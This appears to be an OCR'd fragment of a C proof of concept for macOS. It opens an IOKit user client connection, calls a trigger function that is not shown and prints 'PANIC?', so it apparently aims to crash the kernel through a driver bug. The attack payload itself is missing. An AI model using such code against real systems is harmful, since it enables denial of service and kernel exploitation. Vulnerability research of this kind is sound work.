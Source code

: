 ```
        
        return 0;
        
    }
    
    io_iterator_t iterator;
    
    err = IOServiceGetMatchingServices(kIOMasterPortDefault, Matching, &iterator);
    
    if (err != KERN_SUCCESS){
        
        printf("NO MATCHES\n");
        return 0;
    }
    
    io_service_t service = IOIteratorNext(iterator);
    
    if (service == IO_OBJECT_NULL){
        
        printf("UNABLE TO FIND SERVICE\n");
        
        return 0;
        
    }
    
    io_connect_t CONN = MACH_PORT_NULL;
    
    err = IOServiceOpen(service, mach_task_self(), 12, &CONN);
    
    if (err != KERN_SUCCESS){
        
        printf("UNABLE TO GET USER CLIENT CONNECTION\n");
        
        return 0;
        
    }else{
        
        printf("GOT USERCLIENT CONNECTION: %X, TYPE:%D\n", CONN, 0);
        
    }
    
    trigger(CONN);
    
    printf("PANIC?\n");
    
    return 0;
    
}

```
